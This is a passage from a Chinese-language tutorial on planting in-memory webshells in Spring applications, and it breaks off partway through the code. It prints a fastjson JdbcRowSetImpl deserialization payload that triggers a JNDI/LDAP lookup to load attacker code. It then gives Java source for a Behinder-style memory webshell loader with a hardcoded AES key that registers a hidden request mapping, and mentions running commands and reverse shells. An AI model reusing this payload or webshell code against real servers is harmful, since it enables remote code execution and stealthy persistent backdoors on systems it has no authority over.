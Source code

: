 ```http
Content-Length: 112

{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"ldap://127.0.0.1:1389/abc",
"autoCommit":true
}
```
![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_54_FX0kNlpV.png)

### 0x2 jndi 注入冰蝎马
如果执行的字节码文件需要不用引入其他包，那么直接执行Runtime.getRuntime.exec即可执行命令，反弹shell等操作，但是如果需要在spring 应用中注入，那么需要使用spring相关的包，才能获取到对应的context，在这里需要使用maven项目，添加对应的spring 包，或者有jar包也可以直接添加到lib文件里，然后用idea编译成class文件，对应在target目录下
```java
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.*;

public class Exec extends ClassLoader{
    private final String k = "e45e329feb5d925b";
    public Exec(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);  // 调用父类的defineClass函数
    }
    public Exec(String aaa){}
    public Exec() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 可选步骤，判断url是否存在
        AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
```